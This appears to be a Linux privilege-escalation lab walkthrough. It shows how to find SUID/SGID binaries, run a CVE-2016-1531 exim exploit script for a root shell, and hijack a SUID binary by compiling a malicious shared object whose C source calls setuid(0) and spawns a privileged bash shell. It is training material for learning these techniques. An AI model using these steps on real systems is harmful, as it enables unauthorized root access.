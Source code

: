 # SUID / SGID Executables - Known Exploits
Find all the SUID/SGID executables on the Debian VM:
```sh
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Note that ```/usr/sbin/exim-4.84-3``` appears in the results. Try to find a known exploit for this version of exim. [Exploit-DB](https://www.exploit-db.com/), 
Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found on the Debian VM 
at ```/home/user/tools/suid/exim/cve-2016-1531.sh```.

Run the exploit script to gain a root shell:
```sh
/home/user/tools/suid/exim/cve-2016-1531.sh
```

# SUID / SGID Executables - Shared Object Injection
The ```/usr/local/bin/suid-so``` SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:
```
/usr/local/bin/suid-so
```

Run strace on the file and search the output for open/access calls and for "no such file" errors:
```sh
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Note that the executable tries to load the /home/user/.config/libcalc.so shared object within our home directory, but it cannot be found.

Create the .config directory for the libcalc.so file:
```sh
mkdir /home/user/.config
```

Example shared object code can be found at ```/home/user/tools/suid/libcalc.c```. It simply spawns a Bash shell. Compile the code into a shared object at the 
location the suid-so executable was looking for it:
```sh
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

libcalc.c
```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```
